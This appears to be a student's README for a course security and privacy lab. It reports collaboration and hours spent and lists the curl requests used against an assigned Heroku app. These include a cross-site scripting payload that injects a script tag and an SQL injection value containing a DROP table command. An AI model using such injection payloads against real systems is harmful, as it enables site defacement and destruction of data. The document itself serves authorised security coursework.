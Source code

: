 Project by Katherine Wadhwani

Correctness and Troubleshooting:
To the best of my understanding, all parts of this project have been implemented correctly. I did, however, find it difficult to understand what I modifications I vs others had made, as the website kept changing.

Collaboration:
I discussed this project with Thomas, Murt, and Dan. I was struggling and they kindly helped explain where I was going wrong. In particular, Thomas bettered my understanding of how to preform a SQL injection. All ideas, however, were my own.

Hours to Complete:
I took about 8 hours to complete the lab.

Note: While we were not particularly asked to show our curl requests for our Security and Privacy Assessment report, I wanted to include them. Putting them in the html document proved difficult, as some were interpreted as script. For these reasons, I have included them here.


<b>Cross-Site Scripting </b>
  - curl -d "username=<script>var b=document.getElementsByTagName('body')[0],i=document.createElement('iframe');i.src='https://www.google.com/embed/the-simpson-s-home-
    interactive';i.style.width='50%';i.style.height='50%';i.frameBorder='0';i.allow='gamepad *';b.insertBefore(i,b.firstChild);</script>&lat=34342.944&lng=943432.32345" 
    -X POST https://jordan-marsh.herokuapp.com/rides
  
<b>SQL Injection</b>  
   - curl -d "username= whatever; DROP vehicles;&lat=34342.944&lng=943432.32345" -X POST https://jordan-marsh.herokuapp.com/update

<b>General Privacy</b>
  - curl -d "username=a&lat=34342.944&lng=943432.32345" -X POST https://jordan-marsh.herokuapp.com/rides
  - https://jordan-marsh.herokuapp.com/vehicle.json?username=J1r5pEAO
  
  
